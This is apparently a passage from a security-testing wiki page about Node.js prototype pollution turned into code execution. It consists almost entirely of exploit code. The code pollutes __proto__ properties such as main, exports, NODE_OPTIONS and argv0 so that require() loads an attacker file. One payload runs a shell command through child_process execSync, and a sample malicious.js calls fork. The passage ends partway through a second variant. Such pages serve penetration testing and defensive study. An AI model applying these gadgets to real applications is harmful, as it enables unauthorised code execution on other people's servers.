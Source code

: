 {{#tabs}}
{{#tab name="exploit"}}

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Install package bytes (it doesn't have a main in package.json)
// npm install bytes

// Manual Pollution
b = {};
b.__proto__.main = "/tmp/malicious.js";

// Trigger gadget
var proc = require("bytes");
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"main": "/tmp/malicious.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_absolute\\").toString())//"}}'
);

clone(USERINPUT);

var proc = require("bytes");
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```

{{#endtab}}

{{#tab name="malicious.js"}}

```javascript
const { fork } = require("child_process");
console.log("Hellooo from malicious");
fork("anything");
```

{{#endtab}}
{{#endtabs}}

<br>

### Relative require - 1

If a **relative path** is loaded instead of an absolute path, you can make node **load a different path**:

{{#tabs}}
{{#tab name="exploit"}}

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {};
b.__proto__.exports = { ".": "./malicious.js" };
b.__proto__["1"] = "/tmp";

// Trigger gadget
var proc = require("./relative_path.js");
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist
```